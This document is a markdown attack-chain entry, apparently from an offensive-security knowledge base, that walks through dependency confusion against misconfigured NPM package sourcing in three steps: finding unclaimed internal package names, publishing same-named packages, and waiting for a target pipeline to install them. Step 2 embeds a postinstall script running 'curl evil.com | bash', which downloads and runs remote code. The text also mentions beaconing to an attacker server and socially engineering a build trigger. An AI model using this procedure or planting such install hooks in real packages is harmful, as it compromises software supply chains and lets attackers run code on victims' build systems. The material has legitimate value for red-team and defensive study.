

---
tags:
  - dependency-confusion
  - npm
  - supply-chain
  - rce
  - misconfiguration
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Linux
  - Windows
  - macOS
  - Node.js
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-NPM-Dependency-Misconfiguration]]'
  - '[[procedures/Publish-Malicious-NPM-Packages]]'
  - '[[procedures/Trigger-Package-Installation-in-Target-Pipeline]]'
step_count: 3
techniques:
  - '[[Compromise Software Supply Chain]]'
updated_at: '2025-12-14T17:24:18.378Z'
description: >-
  A supply chain attack exploiting misconfigured NPM package sourcing in
  development pipelines, allowing malicious packages to be installed from the
  public registry instead of internal sources, potentially leading to remote
  code execution.
skill_level: intermediate
impact_level: high
id: f7e0caca-6247-4764-bcd8-b1cc65c9be51
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Compromise Software Supply Chain]]'
---
# RCE via Dependency Confusion in NPM Package Sourcing

Multi-stage attack chain demonstrating a complete supply chain compromise workflow targeting misconfigured NPM dependencies in development environments.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- NPM CLI (for publishing packages)
- Access to public NPM registry

### Target Environment

- Node.js development projects using NPM
- Misconfigured pipelines defaulting to public registry for internal packages
- Services: NPM registry

### Initial Access Requirements

- No prior credentials needed for public registry
- Ability to guess or discover internal package names (e.g., via public repos or leaks)
- Network access to observe pipeline behavior if insider, or wait for deployment signals

## Detailed Attack Procedures

### Step 1: Identify Misconfiguration
procedure: [[procedures/Identify-NPM-Dependency-Misconfiguration]]

**Objective**: Discover non-existent internal package names that default to public NPM sourcing, enabling dependency confusion.

**Instructions**: Review target organization's public repositories or documentation to identify potential internal package names. Use NPM search to check if they exist publicly.

For example, search for guessed names like "@company/internal-tool":

```bash
npm search @company/internal-tool
```

If no results, confirm it's a candidate for confusion.

**Expected Output**: List of unused package names available for hijacking.

**Success Indicators**:
- Package names found that do not exist on public NPM
- Evidence of internal usage via public code leaks or job postings

### Step 2: Publish Malicious Packages
procedure: [[procedures/Publish-Malicious-NPM-Packages]]

**Objective**: Create and publish identically named packages to the public NPM registry containing malicious code for RCE.

**Instructions**: Initialize an NPM package with the target name, add malicious JavaScript (e.g., a post-install script executing arbitrary code), and publish it.

```bash
npm init -y
npm install --save-dev malicious-payload
npm publish
```

Embed code like a lifecycle script in package.json: "postinstall": "node -e 'require(\"child_process\").execSync(\"curl evil.com | bash\")'"

**Expected Output**: Package successfully published and visible on NPM.

**Success Indicators**:
- Package version appears in public NPM search
- No publishing errors due to name conflicts

### Step 3: Trigger Installation and Execution
procedure: [[procedures/Trigger-Package-Installation-in-Target-Pipeline]]

**Objective**: Observe or induce the target's pipeline to pull and install the malicious package, leading to potential RCE.

**Instructions**: If possible, monitor public CI/CD signals or social engineer a trigger. In a real scenario, wait for the misconfigured build to run `npm install` on the internal project.

Simulate locally to validate:

```bash
npm install @company/internal-tool
```

**Expected Output**: Malicious package downloaded and post-install script executed.

**Success Indicators**:
- Logs show package pull from public registry
- Malicious code runs (e.g., beacon to attacker server)

## Attack Chain Summary

### Key Achievements

1. Exposed misconfiguration allowing public package substitution
2. Successfully published hijacked packages
3. Demonstrated potential for RCE in internal pipelines

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Compromise Software Supply Chain]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
